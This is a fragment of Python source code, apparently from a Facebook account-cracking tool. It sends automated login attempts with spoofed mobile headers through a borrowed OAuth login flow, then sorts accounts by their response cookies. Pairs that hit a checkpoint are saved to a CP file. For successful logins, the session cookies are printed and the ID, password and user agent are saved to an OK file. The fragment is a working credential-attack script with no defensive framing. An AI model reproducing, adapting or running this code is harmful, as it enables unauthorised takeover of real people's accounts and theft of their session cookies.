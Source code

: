 			headers = {'Host': 'm.facebook.com','x-fb-rlafr': '0','access-control-allow-origin': '*','facebook-api-version': 'v16.0','strict-transport-security': 'max-age=15552000; preload','pragma': 'no-cache','cache-control': 'private, no-cache, no-store, must-revalidate','x-fb-request-id': 'A3PUDZnzy2xgkMAkH9bcVof','x-fb-trace-id': 'Cx4jrkJJire','x-fb-rev': '1007127514','x-fb-debug': 'ASSqfFh8929p35Kn6/R+D8OSctQbVgiX+Pxpn8s5dImzlZcynOPPu9rnz5V0PKDXfbEwqT0VshbByU46SqsrXQ==','content-length': '332','cache-control': 'max-age=0','sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','save-data': 'on','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': 'Mozilla/5.0 (Mobile; rv:48.0; A405DL) Gecko/48.0 Firefox/48.0 KAIOS/2.5','accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'navigate','sec-fetch-user': '?1','sec-fetch-dest': 'document','referer': 'https://m.facebook.com/login.php?skip_api_login=1&api_key=793139305026776&kid_directed_site=0&app_id=793139305026776&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv13.0%2Fdialog%2Foauth%3Fresponse_type%3Dcode%26client_id%3D793139305026776%26redirect_uri%3Dhttps%253A%252F%252Fmuyu2019.com%252Fwp-login.php%253FloginSocial%253Dfacebook%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%26scope%3Dpublic_profile%252Cemail%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db0a1bc78-04e0-4998-b19b-3a18e7643195%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fmuyu2019.com%2Fwp-login.php%3FloginSocial%3Dfacebook%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate','accept-language': 'id-ID,id;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6'}
			po = ses.post('https://developers.facebook.com/login/device-based/regular/login/?api_key=793139305026776&auth_token=0b6ec682004f184c19b735a0633758a7&skip_api_login=1&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv13.0%2Fdialog%2Foauth%3Fresponse_type%3Dcode%26client_id%3D793139305026776%26redirect_uri%3Dhttps%253A%252F%252Fmuyu2019.com%252Fwp-login.php%253FloginSocial%253Dfacebook%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%26scope%3Dpublic_profile%252Cemail%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db0a1bc78-04e0-4998-b19b-3a18e7643195%26tp%3Dunspecified&refsrc=deprecated&app_id=793139305026776&cancel=https%3A%2F%2Fmuyu2019.com%2Fwp-login.php%3FloginSocial%3Dfacebook%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D85c55c0b08f9baf02f2aa21cab5f7621%23_%3D_&lwv=100&locale2=id_ID&refid=9',data=data,headers=headers,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r{K}└─ {idf}|{pw}|{ua}{N}')  
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{H}└─ {idf}|{pw}|{kuki}{N}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
